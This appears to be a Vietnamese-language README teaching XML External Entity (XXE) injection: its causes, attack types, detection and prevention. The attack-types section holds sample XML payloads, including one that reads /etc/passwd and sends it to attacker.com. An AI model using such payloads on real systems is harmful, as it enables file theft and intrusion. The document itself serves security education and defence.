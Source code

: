 # XML-external-entity-XXE-injection

## Overview:

### XML là gì:

`XML (Extensible Markup Language)` là một ngôn ngữ đánh dấu dựa trên văn bản được sử dụng để lưu trữ và truyền dữ liệu có cấu trúc. Nó là một công nghệ chung cho việc trao đổi dữ liệu giữa các hệ thống khác nhau và được sử dụng rộng rãi trong ứng dụng web.

XML sử dụng các thẻ đánh dấu để xác định cấu trúc và nội dung của dữ liệu. Mỗi thẻ bắt đầu bằng một ký tự `"<"` và kết thúc bằng ký tự `">"`. Thẻ có thể chứa văn bản hoặc các thẻ con bên trong nó. Dữ liệu trong XML được tổ chức thành cây phân cấp, trong đó các thẻ cha chứa các thẻ con và các thẻ con có thể chứa các thẻ khác.

```xml
<person>
  <name>John Doe</name>
  <age>30</age>
  <email>john@example.com</email>
</person>
```

Trong ví dụ trên, chúng ta có một phần tử `<person>` chứa ba phần tử con là `<name>`, `<age>`, và `<email>`. Mỗi phần tử con chứa dữ liệu tương ứng, chẳng hạn `<name>` chứa `John Doe`, `<age>` chứa `30`, và `<email>` chứa `john@example.com`.

XML cho phép người dùng tự định nghĩa các thẻ và cấu trúc dữ liệu phù hợp với nhu cầu của họ. Điều này giúp việc truyền và lưu trữ dữ liệu linh hoạt hơn và dễ dàng cho việc tương tác giữa các hệ thống khác nhau.

### External Entity (thực thể ngoại vi) là gì:

Trong ngữ cảnh của XML là một cơ chế cho phép tham chiếu và sử dụng dữ liệu từ các nguồn bên ngoài tài liệu XML hiện tại. Thực thể ngoại vi cho phép chèn dữ liệu từ các tệp tin, URL hoặc tài nguyên mạng vào trong tài liệu XML.

Trong XML, một thực thể ngoại vi được khai báo trong phần DTD (Document Type Definition) hoặc trong khai báo ENTITY. Nó có thể được định nghĩa bằng cách sử dụng một SYSTEM identifier (định danh hệ thống) để tham chiếu đến một nguồn bên ngoài.

Ví dụ về khai báo một thực thể ngoại vi trong DTD:
  
```xml
  <!DOCTYPE data [
  <!ENTITY externalEntity SYSTEM "http://example.com/data.xml">
]>
```
Trong ví dụ trên, externalEntity là tên của thực thể ngoại vi và `http://example.com/data.xml` là định danh hệ thống. Thực thể ngoại vi này tham chiếu đến tài liệu XML tại URL `http://example.com/data.xml`.

Thực thể ngoại vi trong XML có thể được sử dụng để chèn dữ liệu từ các nguồn bên ngoài vào tài liệu XML, nhưng cũng có thể gây ra các rủi ro bảo mật nếu không được xử lý đúng cách, như trong trường hợp của lỗ hổng XML External Entity (XXE) Injection.

### XXE là gì:
 
XXE là viết tắt của External Entity Expansion (mở rộng thực thể ngoại vi). Nó là một lỗ hổng bảo mật phổ biến trong các ứng dụng web, đặc biệt là trong các ứng dụng sử dụng XML để truyền và lưu trữ dữ liệu.

Khi một ứng dụng web không xử lý đầu vào XML đúng cách, tấn công XXE có thể cho phép kẻ tấn công chèn các thực thể ngoại vi (external entities) độc hại vào các tệp XML được sử dụng trong ứng dụng. Nhờ đó, kẻ tấn công có thể đọc các tệp hệ thống từ xa, thực hiện các cuộc tấn công phối hợp (coordinated attacks), và thậm chí thực hiện tấn công từ chối dịch vụ (DoS) bằng cách tăng cường đáng kể khối lượng công việc.

Các ứng dụng web cần kiểm tra và xử lý đầu vào XML một cách an toàn để ngăn chặn tấn công XXE. Cách phổ biến để ngăn chặn XXE là tắt tính năng mở rộng thực thể ngoại vi trong xử lý XML hoặc sử dụng bộ phân tích XML an toàn để đảm bảo chỉ các thực thể hợp lệ được xử lý.

## Nguyên do:
  
Lỗ hổng XXE (XML External Entity) phát sinh khi ứng dụng không xử lý đầu vào XML một cách an toàn. Dưới đây là một số nguyên nhân phổ biến dẫn đến sự tồn tại của lỗ hổng XXE:

- Không kiểm tra và xác thực đầu vào: Khi ứng dụng không thực hiện việc kiểm tra và xác thực đầu vào XML, các thực thể ngoại vi độc hại có thể được chèn vào tài liệu XML và được xử lý một cách không an toàn.

- Cho phép khai thác tính năng thực thể ngoại vi: Các ứng dụng một số ngôn ngữ hoặc thư viện XML cho phép mở rộng thực thể ngoại vi mặc định. Nếu tính năng này không được tắt hoặc kiểm soát cẩn thận, nó có thể tạo điều kiện cho việc khai thác lỗ hổng XXE.

- Tin cậy đối với dữ liệu không đáng tin cậy: Khi ứng dụng tin tưởng và xử lý dữ liệu XML từ nguồn không đáng tin cậy như người dùng hoặc bên thứ ba mà không kiểm tra tính toàn vẹn và đáng tin cậy của dữ liệu, lỗ hổng XXE có thể được khai thác.

- Sự phụ thuộc vào hàm xử lý XML không an toàn: Sử dụng các hàm xử lý XML không an toàn hoặc không được cập nhật có thể tạo điều kiện cho khai thác lỗ hổng XXE.

Để ngăn chặn lỗ hổng XXE, ứng dụng cần thực hiện các biện pháp bảo mật như kiểm tra và xác thực đầu vào, tắt tính năng mở rộng thực thể ngoại vi, sử dụng các bộ phân tích XML an toàn và giới hạn quyền truy cập đến các tài nguyên ngoại vi.
  
## Các loại tấn công XXE:
  
  Có 2 loại tấn công phổ biến:
  
  - Exploiting External Entity Declaration (In-band XXE)

Đây là loại tấn công XXE phổ biến nhất. Trong tấn công này, kẻ tấn công chèn một thực thể ngoại vi độc hại trực tiếp vào tài liệu XML. Thực thể ngoại vi này sẽ truy cập và đọc các tệp tin hoặc tài nguyên từ xa. Kết quả của việc đọc này sau đó có thể được trả về trong phản hồi từ máy chủ.

```xml
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious-file">
]>
<data>&xxe;</data>
```

Trong ví dụ trên, kẻ tấn công chèn một thực thể ngoại vi xxe và truy cập tệp tin `malicious-file` từ xa thông qua URL `http://attacker.com/malicious-file`. Dữ liệu từ tệp tin này sẽ được đưa vào tài liệu XML và trả về trong phản hồi.
  
  - Exploiting Parameter Entities (Out-of-band XXE)
  
Loại tấn công này sử dụng các thực thể tham số (parameter entities) để khai thác XXE. Kẻ tấn công chèn một thực thể ngoại vi độc hại vào tài liệu XML, nhưng việc truy cập đến tệp tin hoặc tài nguyên từ xa không xảy ra trong quá trình phân tích cú pháp. Thay vào đó, dữ liệu được truyền qua kênh phụ, như gửi thông qua giao thức HTTP hoặc DNS.
 
```xml
  <!DOCTYPE data [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY callhome SYSTEM "http://attacker.com/?data=%xxe;">
]>
<data>&callhome;</data>
```

Trong ví dụ trên, kẻ tấn công chèn một thực thể tham số `%xxe` để tham chiếu đến tệp tin `/etc/passwd`. Sau đó, dữ liệu từ tệp tin này được gửi đến máy chủ của kẻ tấn công thông qua URL `http://attacker.com/?data=%xxe;`.
  
Ngoài ra còn có:
  
  - Exploiting XXE to retrieve files, trong đó một thực thể ngoại vi được định nghĩa chứa nội dung của một tệp tin, và được trả về trong phản hồi của ứng dụng.
  
  - Exploiting blind XXE to retrieve data via error messages, trong đó kẻ tấn công có thể kích hoạt một thông báo lỗi phân tích chứa dữ liệu nhạy cảm.
  
## Làm thế nào để tìm và kiểm tra các lỗ hổng XXE (XML External Entity) vulnerabilities?

Để tìm và kiểm tra các lỗ hổng XXE, bạn có thể tuân theo các bước sau:

- Xem xét các điểm tiếp xúc với dữ liệu XML: Tìm hiểu các thành phần trong ứng dụng của bạn mà có thể tiếp nhận hoặc xử lý dữ liệu XML, chẳng hạn như các giao diện API, form đăng ký, tải lên tệp tin XML, hoặc cơ sở dữ liệu lưu trữ XML.

- Kiểm tra DTD (Document Type Definition): DTD được sử dụng để định nghĩa cấu trúc của tài liệu XML. Tìm hiểu xem ứng dụng của bạn có chấp nhận hoặc xử lý DTD từ nguồn không đáng tin cậy không. Nếu ứng dụng cho phép khai báo ENTITY trong DTD, điều này có thể dẫn đến lỗ hổng XXE.

 - Kiểm tra xem liệu ứng dụng có chấp nhận dữ liệu XML từ nguồn bên ngoài: Xác định liệu ứng dụng có chấp nhận hoặc xử lý XML từ nguồn không đáng tin cậy không. Nếu ứng dụng đọc và xử lý XML từ nguồn bên ngoài, điều này có thể tạo ra lỗ hổng XXE.

- Kiểm tra xem liệu ứng dụng có phản hồi với thông báo lỗi XML: Gửi các dữ liệu XML độc hại hoặc chứa thực thể ngoại vi đến ứng dụng và quan sát phản hồi của nó. Nếu ứng dụng trả về thông báo lỗi XML chứa thông tin nhạy cảm, điều này có thể chỉ ra sự tồn tại của lỗ hổng XXE.

- Kiểm tra các kịch bản khai thác XXE: Thử áp dụng các kịch bản khai thác XXE vào ứng dụng để xem liệu chúng có thành công hay không. Điều này bao gồm chèn thực thể ngoại vi, đọc các tệp tin từ xa, thực hiện các yêu cầu mạng, hoặc tấn công SSRF.

- Sử dụng công cụ kiểm tra tự động: Có nhiều công cụ kiểm tra tự động có sẵn để tìm và kiểm tra các lỗ hổng XXE. Các công cụ này có thể giúp tự động tìm kiếm, phân tích và kiểm tra các lỗ hổng XX

## Cách phòng ngừa các lỗ hổng XXE (XML External Entity) vulnerabilities:

Để phòng ngừa các lỗ hổng XXE, bạn có thể thực hiện các biện pháp bảo mật sau đây:

1. Sử dụng cơ chế xử lý XML an toàn: Sử dụng các thư viện và công cụ xử lý XML an toàn và tuân thủ các hướng dẫn và tiêu chuẩn bảo mật khi xử lý dữ liệu XML trong ứng dụng của bạn. Đảm bảo rằng các cơ chế này loại bỏ hoặc vô hiệu hóa khả năng đọc và xử lý DTD (Document Type Definition) hoặc thực thể ngoại vi.

2. Tắt tính năng DTD và thực thể ngoại vi: Trong quá trình xử lý XML, hãy đảm bảo rằng các tính năng DTD và thực thể ngoại vi đã được tắt hoặc vô hiệu hóa. Điều này có thể được thực hiện bằng cách cấu hình thư viện XML hoặc công cụ xử lý XML của bạn để không chấp nhận hoặc xử lý DTD hoặc thực thể ngoại vi.

3. Đầu vào và kiểm tra dữ liệu đầu vào: Luôn luôn kiểm tra và xác thực dữ liệu đầu vào từ người dùng hoặc nguồn bên ngoài trước khi chấp nhận và xử lý nó. Đảm bảo rằng dữ liệu đầu vào không chứa các thực thể ngoại vi hoặc các cấu trúc XML độc hại có thể khai thác lỗ hổng XXE.

4. Giới hạn quyền truy cập và quyền hạn: Thiết lập các quyền truy cập và quyền hạn phù hợp cho ứng dụng và các thành phần xử lý XML. Điều này đảm bảo rằng chỉ có quyền truy cập cần thiết vào các tệp tin, tài nguyên mạng và hệ thống ngoại vi mà ứng dụng cần để hoạt động.








  
  
